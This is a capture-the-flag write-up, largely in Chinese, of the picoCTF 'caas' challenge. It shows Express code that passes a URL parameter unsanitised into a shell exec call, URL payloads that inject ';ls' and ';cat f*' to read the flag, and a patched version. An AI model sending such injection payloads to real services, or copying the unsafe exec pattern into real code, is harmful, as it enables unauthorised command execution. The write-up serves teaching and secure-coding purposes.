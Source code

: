 ```yaml
---
title: 'picoCTF: caas Writeup'
disqus: hackmd
---
```


picoCTF: caas Writeup
===


## Table of Contents

[TOC]

## Topic

### Lab
#### picoCTF: 
https://play.picoctf.org/practice/challenge/202?category=1&page=1&search=caas

### Initial Enumeration

●Start Machine: \
https://caas.mars.picoctf.net/ \
![image](https://hackmd.io/_uploads/Hkeunxd8R.png)


## Solution

### 1. Attempt
```
https://caas.mars.picoctf.net/cowsay/chw
```
![image](https://hackmd.io/_uploads/HycdAxu8R.png)


### 2. Code Review
index.js
```javascript=
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```
> 1. express 伺服器框架
> 2. exec 使用 child_process 執行命令
> 3. {req.params.message} 直接丟進Shell 執行
> 4. Err 回應 500

### 3. Command Injection
>[!Note]
> ; 用分號閉合req.params.message，接著注入指令
```
https://caas.mars.picoctf.net/cowsay/chw;%20ls
```
![image](https://hackmd.io/_uploads/HkwclbOI0.png)
```
 _____
< chw >
 -----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
> 成功 RCE\
> 開啟falg.txt

### 4. Get Flag 
```
https://caas.mars.picoctf.net/cowsay/chw;%20cat%20f*
```
![image](https://hackmd.io/_uploads/SkwGbWu8A.png)

> **FLAG: picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**

## Vulnerability causes
在執行 cowsay command，會進到:
```javascript=8
 exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) =>
```
>[!Important]
> user payload 沒有經過驗證或參數化，直接進到 ${req.params.message}\
> exec function 會直接透過 shell 來執行

既然能夠直接透過 shell 執行， 就能使用`;`、`&&`、`|`閉合前面指令

- 依照上面writeup:
在 shell 中，payload 會被解讀成兩個指令:
1. /usr/games/cowsay chw
2. ls (or cat f*)


## Patch
參數化後，使用正規表達式:
```javascript=
const express = require('express');
const app = express();
const { execFile } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  const message = req.params.message;
  if (/^[a-zA-Z0-9 .,?!-]+$/.test(message)) {
    execFile('/usr/games/cowsay', [message], {timeout: 5000}, (error, stdout) => {
      if (error) return res.status(500).end();
      res.type('txt').send(stdout).end();
    });
  } else {
    res.status(400).send('Invalid input').end();
  }
});

app.listen(3000, () => {
  console.log('listening');
});

```
> 1. 將 req.params.message 參數化: message
> 2. 參數 message 需符合正規表達式: `^[a-zA-Z0-9 .,?!-]+$`\
> 只會包含字母、數字和基本標點符號
> 3. execFile 取代 exec

>[!Note]
> **exec**:
> 直接透過 shell 執行指令，可以執行任何 shell command
> 
> **execFile**:
> 執行具體的可執行文件 (ex. message)，不會透過 shell


###### tags: `Web` `CTF` `Webshell` 
